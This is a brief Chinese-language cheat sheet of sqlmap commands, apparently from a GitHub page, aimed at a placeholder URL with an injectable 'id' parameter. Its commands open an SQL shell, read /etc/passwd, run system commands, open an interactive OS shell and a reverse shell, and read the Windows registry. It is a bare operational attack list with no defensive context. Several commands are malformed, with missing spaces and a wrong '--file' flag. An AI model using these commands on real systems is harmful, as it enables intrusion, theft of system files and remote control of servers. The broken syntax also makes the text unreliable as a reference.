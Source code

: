 

#代理注入

```
sqlmap -u "http://XXXXXXX?id=1" --proxy"http://127.0.0.1:8118" 
```



 #指定关键词

```
sqlmap -u "http://XXXXXXX?id=1"--string"STRING_ON_TRUE_PAGE"
```



#执行指定 sql 命令

```
sqlmap -u "http://XXXXXXX?id=1" --sql-shell 
```



文件位置

```
sqlmap -u "http://XXXXXXX?id=1" --file /etc/passwd
```



 #执行系统命令

```
sqlmap -u "http://XXXXXXX?id=1" --os-cmd=whoami
```



 #系统交互 shell

```
sqlmap -u "http://XXXXXXX?id=1" --os-shell
```



 #反弹 shell

```
sqlmap -u "http://XXXXXXX?id=1" --os-pwn
```



 #读取 win 系统注册表

```
sqlmap -u "http://XXXXXXX?id=1" --reg-read
```



#保存进度

```
sqlmap -u "http://XXXXXXX?id=1" --dbs-o "sqlmap.log" 
```
